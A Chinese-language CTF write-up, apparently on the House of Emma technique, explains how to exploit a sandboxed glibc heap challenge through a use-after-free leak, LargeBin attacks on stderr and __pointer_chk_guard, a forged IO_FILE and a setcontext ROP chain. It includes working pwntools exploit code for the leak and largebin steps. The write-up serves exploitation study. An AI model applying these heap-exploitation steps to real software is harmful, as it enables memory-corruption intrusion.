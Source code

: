 当然,不要忘了这题开了沙箱,专门限制了`execve `,所以只能`orw`
## 思路分析

1. 首先是泄露`libc` 和 `heap` 地址,可以直接利用`uaf` 和`show()`函数做到.
2. 使用 `LargeBin Attack` 来在` stderr` 指针处写一个可控地址
3. 使用 `LargeBin Attack` 在`__pointer_chk_guard` 处写一个已知地址
4. 通过写入的已知地址与需要调用的函数指针进行构造加密，同时构造出合理的` IO_FILE` 结构
5. 利用 Unsorted Bin 会与 Top Chunk 合并的机制来修改 Top Chunk 的 Size，从而触发 [House OF Kiwi](https://www.anquanke.com/post/id/235598) 中的 IO 调用
6. 进入 `House_OF_Emma` 的调用链，同时寻找一个能够转移 rdi 到 rdx 的 gadget，利用这个 gadget 来为 `Setcontext` 提供内容
7. 利用 `Setcontext` 来执行 `ROP` 来 `ORW`

## exp详解

在这里，largebin attack的部分就简单略过描写，我们的重点还是后续伪造`fake IO`

### 泄露地址

以泄露`libc`为例,首先准备四个堆块.其中一个堆块略大于其他堆块是为后续利用准备.由于本程序的限制,让最小能申请到的堆块都会进入`unsorted bin`.

所以我们在free 一个堆块后,再申请一个更大的堆块,就可以把他放入`largebins`.第一次直接`show()`,即可泄露`libc`地址.而要泄露`heap`地址,要先利用`edit()`修改`fd`和`bk`,这样才能把`fd_nextsize`的内容,也就是`chunk2`的地址

```python
add(0,0x410)
add(1,0x410)
add(2,0x420)
add(3,0x410)
delete(2)
add(4,0x430)
show(2)
run()
io.recvuntil("Del Done\nMalloc Done\n")
libc_base=u64(io.recv(6).ljust(8,b"\x00"))-0x1f30b0
logv("libc_base",hex(libc_base))
```


### largebins attack

以修改`stderr`为例,此时有之前`free`的`chunk2`,现在`free`掉`chunk0`.此时如果正常,前面再申请一个更大的堆块,结果就是`chunk0`,会链入`largebins`.

现在,先修改`chunk2`的`bk_nextsize`,再申请大堆块,就可以往`target`里写入`chunk2`的地址.
所以成功之后,`sterr` 就被修改为了`chunk2`

把`chunk2` 和 `chunk0` 改好是为了后续的持续利用
```python
delete(0)
payload = p64(libc_base + 0x1f30b0)*2 + p64(heap_base +0x2ae0) + p64(stderr - 0x20)
edit(2,payload)
add(5,0x430)
edit(2, p64(heap_base + 0x22a0) + p64(libc_base + 0x1f30b0) + p64(heap_base + 0x22a0) * 2)
edit(0, p64(libc_base + 0x1f30b0) + p64(heap_base + 0x2ae0) * 3)
add(0, 0x410)
add(2, 0x420)
run()   
```

